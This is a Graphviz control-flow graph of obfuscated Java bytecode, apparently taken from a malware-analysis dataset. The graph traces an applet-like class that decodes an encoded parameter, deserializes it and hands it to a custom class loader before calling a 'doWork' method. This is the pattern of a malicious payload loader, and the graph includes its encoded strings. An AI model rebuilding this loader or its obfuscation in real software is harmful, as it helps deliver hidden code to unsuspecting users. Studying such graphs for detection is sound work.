 digraph "" {
    "r0 := @this: tyu"
    "push \"IMMJ8>8;?;?<8>9==L<M>O>??8>?:K>M>?>K>9:K<H><>O>;>=?:;L1>KK=61H9>?=:7>M8<8>8>?6?>8>8>8>8<?;?<8>88=L<M><?8?>;LNK:M1:9?06J8M;NH8<8>8>?6?>8>8>8>8??>?=?<8>;>>O>??8>?:K?;?:>7>M:K>=>H>K>=?;?<?<>;>K?::K>??:>H>J>7>=:K<??:>H>J>7>==<>;>8>;?<>;>K>=>;<??<?<>??7I7L<LKI?JK>;>>8M8<8>8?=L8>8;>??<?<>??7?:8>9==L<M>O>??8>?:H>M>?>K>9:H<H><>O>;>=?:;L?6?>??8>?K8>8=\""
    "r0 := @this: tyu"->"push \"IMMJ8>8;?;?<8>9==L<M>O>??8>?:K>M>?>K>9:K<H><>O>;>=?:;L1>KK=61H9>?=:7>M8<8>8>?6?>8>8>8>8<?;?<8>88=L<M><?8?>;LNK:M1:9?06J8M;NH8<8>8>?6?>8>8>8>8??>?=?<8>;>>O>??8>?:K?;?:>7>M:K>=>H>K>=?;?<?<>;>K?::K>??:>H>J>7>=:K<??:>H>J>7>==<>;>8>;?<>;>K>=>;<??<?<>??7I7L<LKI?JK>;>>8M8<8>8?=L8>8;>??<?<>??7?:8>9==L<M>O>??8>?:H>M>?>K>9:H<H><>O>;>=?:;L?6?>??8>?K8>8=\"";
    "staticinvoke <sub: java.lang.String c(java.lang.String)>"
    "push \"IMMJ8>8;?;?<8>9==L<M>O>??8>?:K>M>?>K>9:K<H><>O>;>=?:;L1>KK=61H9>?=:7>M8<8>8>?6?>8>8>8>8<?;?<8>88=L<M><?8?>;LNK:M1:9?06J8M;NH8<8>8>?6?>8>8>8>8??>?=?<8>;>>O>??8>?:K?;?:>7>M:K>=>H>K>=?;?<?<>;>K?::K>??:>H>J>7>=:K<??:>H>J>7>==<>;>8>;?<>;>K>=>;<??<?<>??7I7L<LKI?JK>;>>8M8<8>8?=L8>8;>??<?<>??7?:8>9==L<M>O>??8>?:H>M>?>K>9:H<H><>O>;>=?:;L?6?>??8>?K8>8=\""->"staticinvoke <sub: java.lang.String c(java.lang.String)>";
    "staticinvoke <sub: java.lang.String ALLATORI_DEMO(java.lang.String)>"
    "staticinvoke <sub: java.lang.String c(java.lang.String)>"->"staticinvoke <sub: java.lang.String ALLATORI_DEMO(java.lang.String)>";
    "store.r $r14"
    "staticinvoke <sub: java.lang.String ALLATORI_DEMO(java.lang.String)>"->"store.r $r14";
    "load.r r0"
    "store.r $r14"->"load.r r0";
    "push \"2\u0014-\u001b4\u0018\""
    "load.r r0"->"push \"2\u0014-\u001b4\u0018\"";
    "staticinvoke <tyu: java.lang.String c(java.lang.String)>"
    "push \"2\u0014-\u001b4\u0018\""->"staticinvoke <tyu: java.lang.String c(java.lang.String)>";
    "staticinvoke <tyu: java.lang.String c(java.lang.String)>"->"staticinvoke <sub: java.lang.String ALLATORI_DEMO(java.lang.String)>";
    "virtualinvoke <tyu: java.lang.String getParameter(java.lang.String)>"
    "staticinvoke <sub: java.lang.String ALLATORI_DEMO(java.lang.String)>"->"virtualinvoke <tyu: java.lang.String getParameter(java.lang.String)>";
    "store.r r27"
    "virtualinvoke <tyu: java.lang.String getParameter(java.lang.String)>"->"store.r r27";
    "push \"j6q[XdoG\\Fkk8+|{eWI~:\\gV5xW4E:;vO|%9Ggr-_JM8y]7o\u007f \'LBbcE`B1X9j{;R_fhFM.H\""
    "store.r r27"->"push \"j6q[XdoG\\Fkk8+|{eWI~:\\gV5xW4E:;vO|%9Ggr-_JM8y]7o\u007f \'LBbcE`B1X9j{;R_fhFM.H\"";
    "push \"j6q[XdoG\\Fkk8+|{eWI~:\\gV5xW4E:;vO|%9Ggr-_JM8y]7o\u007f \'LBbcE`B1X9j{;R_fhFM.H\""->"staticinvoke <sub: java.lang.String c(java.lang.String)>";
    "staticinvoke <sub: java.lang.String c(java.lang.String)>"->"staticinvoke <sub: java.lang.String ALLATORI_DEMO(java.lang.String)>";
    "store.r r28"
    "staticinvoke <sub: java.lang.String ALLATORI_DEMO(java.lang.String)>"->"store.r r28";
    "push \"\u0010Cs\n\u00061\u0016*&Rq\r\r\u0015}A0:\u0008EaSv9\u0014\u000e\u000f2\u0017\u001b\u001d\u0006w(\u007f#4.\u0012K+>7\u0018r\u0016u?)\u0004*$,O\u00037\u000b;$\u0014!5dY%\t>\u0008j%\\\"\u0013\""
    "store.r r28"->"push \"\u0010Cs\n\u00061\u0016*&Rq\r\r\u0015}A0:\u0008EaSv9\u0014\u000e\u000f2\u0017\u001b\u001d\u0006w(\u007f#4.\u0012K+>7\u0018r\u0016u?)\u0004*$,O\u00037\u000b;$\u0014!5dY%\t>\u0008j%\\\"\u0013\"";
    "push \"\u0010Cs\n\u00061\u0016*&Rq\r\r\u0015}A0:\u0008EaSv9\u0014\u000e\u000f2\u0017\u001b\u001d\u0006w(\u007f#4.\u0012K+>7\u0018r\u0016u?)\u0004*$,O\u00037\u000b;$\u0014!5dY%\t>\u0008j%\\\"\u0013\""->"staticinvoke <tyu: java.lang.String c(java.lang.String)>";
    "staticinvoke <tyu: java.lang.String c(java.lang.String)>"->"staticinvoke <sub: java.lang.String ALLATORI_DEMO(java.lang.String)>";
    "store.r r29"
    "staticinvoke <sub: java.lang.String ALLATORI_DEMO(java.lang.String)>"->"store.r r29";
    "push \"\""
    "store.r r29"->"push \"\"";
    "store.r r30"
    "push \"\""->"store.r r30";
    "push 0"
    "store.r r30"->"push 0";
    "store.i $i3"
    "push 0"->"store.i $i3";
    "store.i $i3"->"push 0";
    "store.i i6"
    "push 0"->"store.i i6";
    "load.r r27"
    "store.i i6"->"load.r r27";
    "store.r $r31"
    "load.r r27"->"store.r $r31";
    "load.i $i3"
    "store.r $r31"->"load.i $i3";
    "load.r $r31"
    "load.i $i3"->"load.r $r31";
    "virtualinvoke <java.lang.String: int length()>"
    "load.r $r31"->"virtualinvoke <java.lang.String: int length()>";
    "ifcmpge.i load.r r30"
    "virtualinvoke <java.lang.String: int length()>"->"ifcmpge.i load.r r30";
    "load.r r29"
    "ifcmpge.i load.r r30"->"load.r r29";
    "load.r r29"->"load.r r27";
    "load.i i6"
    "load.r r27"->"load.i i6";
    "virtualinvoke <java.lang.String: char charAt(int)>"
    "load.i i6"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.String: int indexOf(int)>"
    "virtualinvoke <java.lang.String: char charAt(int)>"->"virtualinvoke <java.lang.String: int indexOf(int)>";
    "virtualinvoke <java.lang.String: int indexOf(int)>"->"store.i $i3";
    "store.i $i3"->"load.i $i3";
    "push -1"
    "load.i $i3"->"push -1";
    "ifcmple.i inc.i i6 1"
    "push -1"->"ifcmple.i inc.i i6 1";
    "new java.lang.StringBuilder"
    "ifcmple.i inc.i i6 1"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push 0";
    "load.r r30"
    "push 0"->"load.r r30";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder insert(int,java.lang.String)>"
    "load.r r30"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder insert(int,java.lang.String)>";
    "load.r r28"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder insert(int,java.lang.String)>"->"load.r r28";
    "load.r r28"->"load.i $i3";
    "load.i $i3"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(char)>"
    "virtualinvoke <java.lang.String: char charAt(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(char)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(char)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r30";
    "inc.i i6 1"
    "store.r r30"->"inc.i i6 1";
    "inc.i i6 1"->"load.i i6";
    "load.i i6"->"store.i $i3";
    "store.i $i3"->"load.r r27";
    "load.r r27"->"store.r $r31";
    "goto load.i $i3"
    "store.r $r31"->"goto load.i $i3";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpge.i load.r r30"->"load.r r30";
    "push \"N\""
    "load.r r30"->"push \"N\"";
    "push \"N\""->"staticinvoke <sub: java.lang.String c(java.lang.String)>";
    "staticinvoke <sub: java.lang.String c(java.lang.String)>"->"staticinvoke <sub: java.lang.String ALLATORI_DEMO(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"
    "staticinvoke <sub: java.lang.String ALLATORI_DEMO(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>";
    "staticput <tyu: java.lang.String[] lob>"
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"->"staticput <tyu: java.lang.String[] lob>";
    "new java.io.ObjectInputStream"
    "staticput <tyu: java.lang.String[] lob>"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r $r14"
    "load.r r0"->"load.r $r14";
    "virtualinvoke <tyu: java.io.ByteArrayInputStream sab(java.lang.String)>"
    "load.r $r14"->"virtualinvoke <tyu: java.io.ByteArrayInputStream sab(java.lang.String)>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "virtualinvoke <tyu: java.io.ByteArrayInputStream sab(java.lang.String)>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"store.r $r14";
    "store.r $r14"->"load.r $r14";
    "load.r $r14"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"checkcast";
    "new sub"
    "checkcast"->"new sub";
    "new sub"->"dup1.r";
    "specialinvoke <sub: void <init>()>"
    "dup1.r"->"specialinvoke <sub: void <init>()>";
    "specialinvoke <sub: void <init>()>"->"load.r $r14";
    "load.r $r14"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>";
    "virtualinvoke <sub: void Add(java.lang.Object[],java.lang.ClassLoader)>"
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"->"virtualinvoke <sub: void Add(java.lang.Object[],java.lang.ClassLoader)>";
    "virtualinvoke <sub: void Add(java.lang.Object[],java.lang.ClassLoader)>"->"push 0";
    "push 0"->"arrayread.r";
    "staticinvoke <bvp: void doWork(bvp)>"
    "arrayread.r"->"staticinvoke <bvp: void doWork(bvp)>";
    "staticinvoke <bvp: void doWork(bvp)>"->"return";
}
